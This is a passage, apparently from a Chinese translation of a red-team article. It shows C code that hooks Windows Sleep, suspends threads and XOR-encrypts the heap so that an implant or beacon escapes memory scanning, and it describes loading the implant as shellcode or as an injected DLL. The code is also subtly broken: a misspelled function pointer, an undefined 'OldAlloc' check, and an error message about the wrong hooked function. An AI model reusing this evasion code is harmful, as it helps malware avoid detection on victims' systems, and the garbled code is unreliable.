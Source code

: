 我将假设你已经实现了自己的加密、挂钩和全线程暂停函数。这些代码大致是这样的：

```plain
static PROCESS_HEAP_ENTRY entry;
VOID HeapEncryptDecrypt() {
    SecureZeroMemory(&entry, sizeof(entry));
    while (HeapWalk(currentHeap, &entry)) {
        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {
            XORFunction(key, keySize, (char*)(entry.lpData), entry.cbData);
        }
    }
}
static void(WINAPI* OrigianlSleepFunction)(DWORD dwMiliseconds);
void WINAPI HookedSleepFunction(DWORD dwMiliseconds) {
    DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
    HeapEncryptDecrypt();
    OriginalSleepFunction(dwMiliseconds);
    HeapEncryptDecrypt();
    DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
}

void main()
{
    DoSuspendThreads(GetCurrentProcessId(), GetCurrentThreadId());
    Hook("kernel32.dll", "Sleep", (LPVOID)HookedSleepFunction, (FARPROC*)&OriginalSleepFunction, true);
    if (!OldAlloc) {
        MessageBoxA(NULL, "Hooking RtlAllocateHeap failed.", "Status", NULL);
    }
    DoResumeThreads(GetCurrentProcessId(), GetCurrentThreadId());
    // Sleep is now hooked
}
```

上面的代码很简单，但是显然不包括 implant 代码。您可以通过执行 shellcode 在相同的进程空间中运行 implant 代码，也可以将其转换为 DLL 并将其注入到 beacon 中。由于它使用了 HeapWalk() 函数，所以，它可以加密过去、现在和将来分配的空间，而不会出现任何问题——只需要钩住 Sleep() 函数就可以开始调用。

演示时间到了！下面是具体的演示代码：

[![1.gif](assets/1706496869-8ed5e5b2411bc88b4c75a5d051607431.gif)](https://storage.tttang.com/media/attachment/2021/12/29/3d36bd82-d9dd-412c-9de9-bb42a5078df9.gif)
